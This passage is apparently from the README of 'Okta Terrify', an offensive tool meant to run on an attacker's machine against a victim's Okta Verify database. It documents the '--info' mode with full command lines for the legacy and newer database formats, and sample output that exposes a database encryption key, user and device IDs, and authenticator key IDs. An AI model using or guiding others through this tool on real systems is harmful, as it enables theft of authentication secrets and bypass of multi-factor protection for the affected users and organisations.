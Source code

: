 Okta Terrify is split into two distinct components.  Okta Terrify and OktaInk.

## Okta Terrify

Okta Terrify is designed to run on the attackers machine. The tool requires the users SID and a database file with legacy database format and for the newer format, the database key.  For the newer format, the database key can be generated using OktaInk.  Okta Terrify has 4 operating modes controlled through various switches.  

### Info

The `--info` mode simply dumps information contained within the database. 

#### Example
**Legacy Database**
```
OktaTerrify.exe --info -s S-1-5-21-*******-1001 --db C:\Users\Tester\AppData\Local\Okta\OktaVerify\OVStore.db
2023-11-21 11:49:56.2243|INFO|OktaTerrify|Okta Terrify is starting....
C:\Users\Tester\AppData\Local\Okta\OktaVerify\OVStore.db

Database Encryption Key: 3a9d6ad1643f2608479c976f1a2ebcb98c115c379d8dfaa2bb6ab2c65c286250
User Id: 00u8*******
Client Instance Id: cli*******
Device Id: guo9**********
Authenticator Url: https://tenant.okta.com/api/v1/authenticators/aut*****
Method Enrollment Id: crp*****
Device Enrollment Id: pfd*****
Sandbox Account Name: None
Keys:
  Id: SFT_********, Sandboxed: No, Type ProofOfPossession
  Id: BOL_********, Sandboxed: No, Type UserVerification
  Id: SFT_********, Sandboxed: No, Type DeviceAttestation
```

**Newer Database**
```
OktaTerrify.exe --info -s S-1-5-21-*******-1001 --db C:\Users\Tester\AppData\Local\Okta\OktaVerify\DataStore.db --dbkey a156a0b42c....6dd83f701
2023-11-21 11:49:56.2243|INFO|OktaTerrify|Okta Terrify is starting....
C:\Users\Tester\AppData\Local\Okta\OktaVerify\DataStore.db

Database Encryption Key: 3a9d6ad1643f2608479c976f1a2ebcb98c115c379d8dfaa2bb6ab2c65c286250
User Id: 00u8*******
Client Instance Id: cli*******
Device Id: guo9**********
Authenticator Url: https://tenant.okta.com/api/v1/authenticators/aut*****
Method Enrollment Id: crp*****
Device Enrollment Id: pfd*****
Sandbox Account Name: None
Keys:
  Id: SFT_********, Sandboxed: No, Type ProofOfPossession
  Id: BOL_********, Sandboxed: No, Type UserVerification
  Id: SFT_********, Sandboxed: No, Type DeviceAttestation
```
